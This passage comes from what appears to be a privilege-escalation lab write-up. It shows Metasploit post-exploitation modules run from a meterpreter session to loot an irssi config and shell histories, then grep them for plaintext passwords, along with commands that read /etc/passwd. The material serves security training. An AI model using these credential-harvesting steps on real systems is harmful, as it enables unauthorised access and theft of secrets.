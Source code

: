 ```
[*] Looting 1 files
[+] Found IRC password(s) of password321 in irssi config at /home/user/.irssi/config
[+] irssi config with passwords stored in /root/.msf4/loot/20220523133749_default_10.10.198.41_irssiconfigfil_990648.txt

$ sudo cat /root/.msf4/loot/20220523133749_default_10.10.198.41_irssiconfigfil_990648.txt | grep -i passw
    autosendcmd = "/msg nickserv identify password321 ;wait 2000";
```

### 2.3 - History

```
meterpreter > run post/linux/gather/enum_users_history

[+] Info:
[+]     Debian GNU/Linux 6.0
[+]     Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
[-] Failed to open file: /home/user/.ash_history: core_channel_open: Operation failed: 1
[+] bash history for TCM stored in /root/.msf4/loot/20220523132458_default_10.10.198.41_linux.enum.users_602188.txt
[-] Failed to open file: /home/user/.csh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.ksh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.sh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.tcsh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.zsh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.mysql_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.psql_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.dbshell: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.viminfo: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/sudoers: core_channel_open: Operation failed: 1
[+] Last logs stored in /root/.msf4/loot/20220523132500_default_10.10.198.41_linux.enum.users_618604.txt

$ sudo cat /root/.msf4/loot/20220523132458_default_10.10.198.41_linux.enum.users_602188.txt | grep -i passw
mysql -h somehost.local -uroot -ppassword123
cat /etc/passwd | cut -d: -f1
awk -F: '($3 == "0") {print}' /etc/passwd
```

## References

- [Privilege Escalation Drives](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#drives)

- [Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#passwd-shadow-files)

- [Linux Var Log Files](http://www.thegeekstuff.com/2011/08/linux-var-log-files/)

- [Linux Privilege Escalation Checklist](https://steflan-security.com/linux-privilege-escalation-checklist/)